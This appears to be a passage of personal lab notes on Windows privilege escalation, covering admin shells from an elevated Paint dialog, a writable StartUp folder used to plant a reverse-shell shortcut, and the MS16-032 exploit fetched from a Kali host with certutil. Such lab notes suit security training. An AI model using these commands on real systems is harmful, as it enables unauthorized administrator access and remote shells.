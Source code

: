 - Insecure GUI Apps
    
    Start an RDP session as the "user" account:
    
    `rdesktop -u user -p password321 MACHINE_IP`
    
    Double-click the "AdminPaint" shortcut on your Desktop. Once it is running, open a command prompt and note that Paint is running with admin privileges:
    
    `tasklist /V | findstr mspaint.exe`
    
    In Paint, click "File" and then "Open". In the open file dialog box, click in the navigation input and paste: file://c:/windows/system32/cmd.exe
    
    Press Enter to spawn a command prompt running with admin privileges.
    

# Startups apps

- Startups apps
    
    Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:
    
    `C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`
    
    Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:
    
    `cscript C:\PrivEsc\CreateShortcut.vbs`
    
    Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted:
    
    `rdesktop -u admin MACHINE_IP`
    
    A shell running as admin should connect back to your listener.
    

# Secundary Logon

- Secondary Logon
    
    **Requerimentos**
    
    - The target system should have two or more CPU cores.
    - The target system should be running PowerShell V2.0 or later.
    
    **Automated**
    
    `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
    
    **Manual**
    
    `certutil -urlcache -f http://<KALI-VM-IP>/ms16-032.exe ms16-032.exe`
    
    [](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032)
    

# UAC
